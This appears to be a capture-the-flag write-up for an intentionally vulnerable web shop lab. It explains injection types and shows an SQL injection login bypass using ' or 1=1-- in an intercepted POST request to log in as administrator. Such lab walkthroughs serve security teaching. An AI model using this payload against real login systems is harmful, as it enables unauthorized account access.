 `Star Trek`

## Inject the juice

![](https://i.imgur.com/uwXqDdH.png)

This task will be focusing on injection vulnerabilities. Injection vulnerabilities are quite dangerous to a company as they can potentially cause downtime and/or loss of data. Identifying injection points within a web application is usually quite simple, as most of them will return an error. There are many types of injection attacks, some of them are:

* SQL Injection - SQL Injection is when an attacker enters a malicious or malformed query to either retrieve or tamper data from a database. And in some cases, log into accounts.
* Command Injection - Command Injection is when web applications take input or user-controlled data and run them as system commands. An attacker may tamper with this data to execute their own system commands. This can be seen in applications that perform misconfigured ping tests.
* Email Injection - Email injection is a security vulnerability that allows malicious users to send email messages without prior authorization by the email server. These occur when the attacker adds extra data to fields, which are not interpreted by the server correctly. 

But in our case, we will be using SQL Injection.

For more information: Injection

1. **Question #1: Log into the administrator account!**

After we navigate to the login page, enter some data into the email and password fields. Before clicking submit make sure Intercept mode is on. This will allow us to see the data been sent to the server!

![](https://i.imgur.com/6gyZ7Vr.png)

We will now change the email to: `' or 1=1--` and forward it to the server.

Why does this work?

1. The character ' will close the brackets in the SQL query
2. 'OR' in a SQL statement will return true if either side of it is true. As 1=1 is always true, the whole statement is true. Thus it will tell the server that the email is valid, and log us into user id 0, which happens to be the administrator account.
3. The -- character is used in SQL to comment out data, any restrictions on the login will no longer work as they are interpreted as a comment. This is like the # and // comment in python and javascript respectively.

![](https://i.imgur.com/Y7xYGjp.png)

```
POST /rest/user/login HTTP/1.1
Host: 10.10.167.150
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.167.150/
Content-Type: application/json
Content-Length: 53
Connection: close
Cookie: io=Pv-PuppPT9QdRDRoAAAJ; language=en; cookieconsent_status=dismiss

{"email"' or 1=1--","password":"asdasd" }
```
